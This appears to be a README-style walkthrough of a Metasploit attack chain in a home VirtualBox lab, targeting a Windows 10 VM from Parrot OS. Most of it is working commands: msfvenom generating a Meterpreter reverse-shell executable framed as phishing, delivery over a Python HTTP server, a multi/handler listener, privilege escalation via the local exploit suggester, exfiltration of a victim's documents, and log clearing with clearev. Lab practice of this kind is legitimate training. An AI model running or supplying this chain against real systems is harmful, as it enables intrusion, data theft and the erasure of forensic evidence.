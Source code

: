 ## Step 1: Lab Network Setup

- VirtualBox: Both Parrot OS and Windows VM set to `Host-only Adapter`
- Parrot IP: 192.168.XX.X
- Windows IP: 192.168.XX.X
- Ping test: Successful (Parrot can reach Windows)


### Network Configuration (VirtualBox)
1. Go to **File > Host Network Manager**, create `vboxnet0`.
2. Assign the following:
   - parrot os: `192.168.XX.X`
   - Windows 10: `192.168.XX.X`
3. Ensure both VMs are using **Host-Only Adapter** mode.

### Test Connectivity:

ping 192.168.XX.X   # From parrotOS

##
### Step 2: Payload Creation

Generate Meterpreter Payload:
mkdir payloads && cd payloads
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.XX.X LPORT=4444 -f exe -o phishing_payload.exe

## Step 3: HTTP Server for Delivery
Host Payload with Python:
python3 -m http.server 8080

On Windows Target:
Download the payload via browser:
http://192.168.XX.X:8080/phishing_payload.exe

##Step 4: Metasploit Handler
Start Metasploit:
msfconsole

Set Up Listener:
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.XX.X
set LPORT 4444
run -j


##Step 5: Initial Access & Meterpreter Shell
Once payload is executed from Windows:
sessions
sessions -i [ID]
getuid
sysinfo



## Step 6: Privilege Escalation
Migrate to Stable Process:
ps
migrate [PID]

Use Exploit Suggester:
background
use post/multi/recon/local_exploit_suggester
set SESSION [ID]
run

After successful privesc, confirm with:
getuid

##Step 7: File Search & Exfiltration
search -f *.docx

Download Files:
download C:\\Users\\Victim\\Documents\\secret.docx


##Step 8: Covering Tracks
Clear Windows Event Logs:
clearev

Delete Payload:
rm C:\\Users\\Victim\\Downloads\\phishing_payload.exe

